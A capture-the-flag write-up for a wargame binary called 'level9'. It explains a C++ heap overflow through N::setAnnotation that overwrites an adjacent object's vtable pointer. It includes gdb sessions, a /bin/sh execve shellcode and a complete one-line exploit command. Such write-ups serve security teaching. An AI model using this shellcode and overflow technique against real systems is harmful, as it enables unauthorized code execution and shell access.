 We start by opening the the file in [dogbolt](https://dogbolt.org/).
It is a cpp file.

In this file there is 2 interesting thing :
- There is two class allocate one next to the other on the heap.
- In the class `N` the is a method `N::setAnnotation` which use a `memcpy` to copy `argv[1]` in a buffer from the class

Using [dogbolt](https://dogbolt.org/) we can see that the program allocate `6c`: 108 bytes with `new` : ```v3 = (N *)operator new(0x6Cu);```
So we know that we will need an offset of 108 bytes to overwrite `b`

So what are we going to do : 
In the return of main has a double dereferenced call ( `b->operator+`) because of how virtual function and vtables works.
Since we can write on `b` with `a` we will have to put an address pointing to another address pointing to our shellcode


Finding the address of our input in the heap:
We start the program and go after the line calling `N::setAnnotation` in `main`

```Shell
(gdb) start AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Temporary breakpoint 4 at 0x80485f8
Starting program: /home/user/level9/level9 AAAA
(gdb) ni 29
(gdb) disas main
Dump of assembler code for function main:
   ...
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
=> 0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   ...
```

We search the heap to find our value and we found `0x804a00c` the address on the heap
```Shell
(gdb) i proc map
process 5525
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level9/level9
         0x8049000  0x804a000     0x1000        0x0 /home/user/level9/level9
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7cfa000 0xb7cfc000     0x2000        0x0 
        0xb7cfc000 0xb7d18000    0x1c000        0x0 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d18000 0xb7d19000     0x1000    0x1b000 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d19000 0xb7d1a000     0x1000    0x1c000 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d1a000 0xb7d44000    0x2a000        0x0 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d44000 0xb7d45000     0x1000    0x29000 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d45000 0xb7d46000     0x1000    0x2a000 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d46000 0xb7d47000     0x1000        0x0 
        0xb7d47000 0xb7eea000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eea000 0xb7eec000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eec000 0xb7eed000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eed000 0xb7ef0000     0x3000        0x0 
        0xb7ef0000 0xb7fc8000    0xd8000        0x0 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fc8000 0xb7fc9000     0x1000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fc9000 0xb7fcd000     0x4000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fcd000 0xb7fce000     0x1000    0xdc000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fce000 0xb7fd5000     0x7000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

We see the start and the end of the heap at this line:
```0x804a000  0x806b000    0x21000        0x0 [heap]```
Where `0x804a000` is the starting address and `0x806b000` is the first that address doesn't belong to the heap anymore. (It's like a index where you have to : array[len(array) - 1] to access the last element)
So address end of the heap - 1 : `0x806b000` - 1 => `0x806afff`
```
(gdb) find 0x804a000, 0x806afff, "AAAA"
0x804a00c
1 pattern found.
```
The address of our input is : `0x804a00c`

Here we have to launch `/bin/sh` with a shellcode
To accommodate the double dereferencement we will overwrite the address of `b` with the address of the beginning of our heap buffer.
At the start of our input we will put another address pointing to the shellcode :
[address of input + 4(sizeof this address)][shellcode][padding][address of input(this overwrite `b`)]
address of the input in the heap : `0x804a00c`
in little endian : `\x0c\xa0\x04\x08`
address of the shellcode (input + 4) : `0x804a00c + 0x4 = 804A010`
in little endian : `\x10\xa0\x04\x08`

The [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) we will be using is : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

```Shell
./level9 $(python -c 'print"\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08"')
```
